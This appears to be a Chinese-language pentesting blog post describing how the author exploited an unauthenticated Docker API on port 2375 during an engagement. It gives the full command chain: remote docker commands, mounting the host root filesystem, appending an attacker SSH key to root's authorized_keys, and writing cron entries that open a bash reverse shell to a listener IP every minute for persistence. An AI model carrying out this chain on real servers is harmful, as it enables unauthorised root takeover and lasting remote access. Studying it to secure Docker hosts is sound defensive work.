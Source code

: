 ```yaml
---
title: 'Docker未授权致RCE'
date: 2025-01-22T23:20:26+08:00
lastmod: 2025-01-22T23:20:26+08:00
draft: false
slug: c767958d
tags: ["内网渗透"]
---
```


- 参考谢公子：[Site Unreachable](https://cloud.tencent.com/developer/article/2321247)
- 在实战中遇到了记一下，最终可以直接 ssh 登录 + 反弹 shell 到内网其他主机

## 测试过程
### docker 未授权

nmap 扫描发现 2375 端口开放 docker 服务，测试以下 URL 发现 docker 未授权：

```
http://x.x.x.x:2375/version
http://x.x.x.x:2375/images
http://x.x.x.x:2375/info
```

### docker 远程命令

可以在本地使用命令远程管理 docker：

```bash
docker -H tcp://<IP>:2375 images -a
docker -H tcp://<IP>:2375 ps
docker -H tcp://<IP>:2375 exec -it e7d97caf249d /bin/bash
```

### 获取宿主机权限

容器里面操作没啥意义，关键是要获取宿主机（目标服务器）的权限。

启动一个未开启的容器，然后将**宿主机的磁盘挂载到容器中**：

```bash
docker -H tcp://<IP>:2375 run -it -v /:/opt b76f96a98a27 /bin/bash
```

- `-v /:/opt`：-v 选项的作用是选择挂载卷，此处将宿主机的整个文件系统 `/` 挂载到容器内的 `/opt` 目录下。

**因此，我们可以通过容器内 `/opt` 目录，管理宿主机文件系统。**

### 写入SSH公钥

管理文件系统并不算真正获取权限，但是也快了。

先在本地生成一对 SSH 的公私钥对，然后直接 echo 把 SSH 公钥写入服务器的公钥文件：

```bash
# 本地生成公私钥对
ssh-keygen -t rsa -b 2048 -f ~/.ssh/id_rsa
# 默认保存在 ~/.ssh , 私钥是 id_rsa , 公钥是 id_rsa.pub

# 修改服务器文件：进入docker容器挂的宿主机文件系统
cd /opt/root/.ssh/
# echo 写入公钥（id_rsa.pub的内容）
echo "ssh-rsa jdiofjsdoijfosjdsjfosdjfo..." >> authorized_keys
```

- 没有.ssh目录或者 authorized_keys 文件就自己创建一个

服务器写入公钥之后，本地可以直接通过**指定私钥文件**来登录服务器：

```bash
ssh -i ~/.ssh/id_rsa root@<IP>
```

### 持久化

最后做一步权限维持，给宿主机设置**定时任务**。

将反弹 shell 的命令写入 `/var/spool/cron/root` 文件中：
- 也可能是 `/var/spool/cron/crontab/root`

```bash
cd /opt/var/spool/cron
echo "*/1  *  *  *  *   /bin/bash -i>&/dev/tcp/<IPonListening>/4444 0>&1" >> root
```

- 含义是每隔一分钟，反弹一次 shell

假如服务器默认 shell 是 zsh，需要把反弹 shell 命令改成：

```bash
echo "*/1  *  *  *  *   bash -c 'bash -i >& /dev/tcp/<IPonListening>/10341 0>&1'" >> root
```

注意，目标服务器可能出不了网，只能反弹 shell 到内网，需要有一台内网机器，可以之后再由内网机器配置转发到外网。